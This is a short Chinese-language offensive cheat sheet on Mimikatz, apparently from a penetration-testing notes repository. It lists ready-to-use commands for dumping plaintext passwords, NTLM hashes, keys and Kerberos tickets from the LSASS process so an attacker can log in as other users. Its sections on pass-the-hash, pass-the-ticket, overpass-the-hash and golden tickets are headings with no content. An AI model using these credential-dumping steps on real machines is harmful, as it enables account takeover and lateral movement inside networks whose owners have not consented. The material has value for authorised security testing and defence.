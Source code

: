 ```yaml
---
description: 凭证提取 / 哈希传递 / 票据伪造 / 哈希注入 / NTLM中继
---
```


# ✔️ Mimikatz

## Tips

*   可从机器内存中提取：

    * 明文密码
    * 密码Hash值
    * PIN码
    * Kerberos票据


* 优先尝试抓明文密码，抓不到明文就抓Hash

## 攻击手法

### 检索已缓存凭证

* 从LSASS进程中转储其他用户凭证，然后以这些用户身份进行登录：

```powershell
mimikatz.exe
# 提权以执行高权限操作
privilege::debug
# 枚举所有登录用户的凭证
sekurlsa::logonpasswords
```

* 同理，从LSASS进程中转储所有Kerberos票据：

```powershell
sekurlsa::tickets
```

* 其他：

```powershell
# 只抓取内存中保存的用户明文密码
sekurlsa::wdigest
# 只抓取内存中保存的用户Hash值
sekurlsa::msv
# 只抓取内存中保存的用户密码的Key值
sekurlsa::ekeys
```

### 哈希传递 (Pass The Hash)





### 票据传递 (Pass The Ticket)







### 绕过哈希 (Overpass The Hash)





### 黄金票据 (Golden Ticket)





